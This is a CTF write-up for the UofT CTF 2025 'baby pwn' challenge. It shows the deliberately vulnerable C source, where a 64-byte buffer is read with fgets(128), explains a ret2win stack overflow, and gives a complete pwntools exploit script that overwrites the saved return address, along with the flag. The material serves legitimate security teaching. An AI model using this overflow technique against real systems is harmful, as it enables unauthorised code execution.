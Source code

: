 ```yaml
---
title: baby pwn
author: nightxade
layout: writeup
category: UofT-CTF-2025
chall_description: 
points: 100
solves: 459
tags: pwn buffer-overflow ret2win
date: 2025-1-12
comments: false
---
```


Here's a baby pwn challenge for you to try out. Can you get the flag?

nc 34.162.142.123 5000

Author: atom

[baby-pwn.zip](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2025/baby-pwn.zip)  

---

We're provided the binary along with the source file:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void secret()
{
    printf("Congratulations! Here is your flag: ");
    char *argv[] = {"/bin/cat", "flag.txt", NULL};
    char *envp[] = {NULL};
    execve("/bin/cat", argv, envp);
}

void vulnerable_function()
{
    char buffer[64];
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
    printf("You entered: %s\n", buffer);
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("Welcome to the Baby Pwn challenge!\n");
    printf("Address of secret: %p\n", secret);
    vulnerable_function();
    printf("Goodbye!\n");
    return 0;
}
```

No need to even look at the binary's protections here -- this is a simple, easy ret2win.  

We have a buffer overflow on `buffer`, allowing us to overwrite the saved RIP, as 128 bytes are read into a 64 byte buffer. Also, he program leaks the address of `secret()`, so we can just write that to saved RIP!  

The exploit can be summed up in three lines:  

```py
# send(cyclic(128, n=8), b': ')
offset = cyclic_find('jaaaaaaa', n=8)
send(b'A'*offset + p64(elf.sym.secret), b': ')
```

The first (commented-out) line, when we run the binary with GDB attached, will give us the offset in our input where the saved RIP is. The next two lines use that information to overwrite the saved RIP with the address of `secret()` (turns out you don't even need the program's leak because the binary doesn't have the PIE protection enabled!)  

And we get the flag!  

	uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}

Full script (it's long because I made a pwn template for myself):  

```py
# Useful references:
# https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf

from pwn import *
import sys
import os

#---------HELPER FUNCTIONS---------#

def get_leak(before: bytes, end: bytes=b'\n') -> int:
    p.recvuntil(before)
    return int(p.recvuntil(end).decode('ascii')[:-1], 16)

def send(payload: bytes, before: bytes=b'', line: bool=True) -> int:
    payload = payload + (b'\n' if line else b'')
    if before == b'':
        p.send(payload)
    else:
        p.sendafter(before, payload)


#---------SETUP---------#

args = list(map(lambda s: s.upper(), sys.argv))
_libcs = list(filter(lambda s: 'libc.so.6' in s, os.listdir()))
_lds = list(filter(lambda s: 'ld' == s[:2], os.listdir()))

elf = ELF("baby-pwn") #------TODO------#
libc = _libcs[0] if len(_libcs) else elf.libc
ld = _lds[0] if len(_lds) else None

context.binary = elf
context.log_level = "DEBUG"

gdbscript = '''
# 
'''

if 'REMOTE' in args:
    p = remote('34.162.142.123', 5000) #------TODO------#
else:
    p = process([elf.path])
    gdb.attach(p, gdbscript=gdbscript)


###################################
#==========BEGIN EXPLOIT==========#
###################################

# send(cyclic(128, n=8), b': ')
offset = cyclic_find('jaaaaaaa', n=8)
send(b'A'*offset + p64(elf.sym.secret), b': ')

###################################
#===========END EXPLOIT===========#
###################################


p.interactive()
p.close()

# uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}
```